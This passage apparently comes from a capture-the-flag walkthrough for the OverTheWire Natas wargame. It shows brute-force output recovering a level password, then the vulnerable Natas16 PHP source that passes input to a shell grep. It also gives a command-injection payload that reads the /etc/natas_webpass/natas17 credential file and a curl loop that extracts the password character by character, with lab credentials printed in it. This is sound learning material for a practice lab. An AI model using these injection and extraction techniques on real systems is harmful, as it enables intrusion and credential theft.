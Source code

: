 ```text
[+] Password: WaIHEacj63wnNIBROHeqi
[+] Password: WaIHEacj63wnNIBROHeqi3
[+] Password: WaIHEacj63wnNIBROHeqi3p
[+] Password: WaIHEacj63wnNIBROHeqi3p9
[+] Password: WaIHEacj63wnNIBROHeqi3p9t
[+] Password: WaIHEacj63wnNIBROHeqi3p9t0
[+] Password: WaIHEacj63wnNIBROHeqi3p9t0m
[+] Password: WaIHEacj63wnNIBROHeqi3p9t0m5
[+] Password: WaIHEacj63wnNIBROHeqi3p9t0m5n
[+] Password: WaIHEacj63wnNIBROHeqi3p9t0m5nh
[+] Password: WaIHEacj63wnNIBROHeqi3p9t0m5nhm
[+] Password: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
```

WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

### Natas16

```php
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

\$\(grep -E ^8.\* /etc/natas_webpass/natas17\)hackers

```bash
passwordlenght=32
CurrentChar=0
password=""
while [ $CurrentChar -ne $passwordlenght ]
do
    for letter in {{a..z},{A..Z},{0..9}}; do
        curl_output=$(curl -s "http://natas16.natas.labs.overthewire.org/?needle="%"24"%"28grep+-E+"%"5E${password}${letter}.*+"%"2Fetc"%"2Fnatas_webpass"%"2Fnatas17"%"29hackers&submit=Search" -H "Authorization: Basic bmF0YXMxNjpXYUlIRWFjajYzd25OSUJST0hlcWkzcDl0MG01bmhtaA==")
        if echo $curl_output | grep -q -v "hackers"; then
            password="${password}${letter}"
            CurrentChar=$(( $CurrentChar + 1 ))
            echo "[+] Password: $password"
            continue 2
```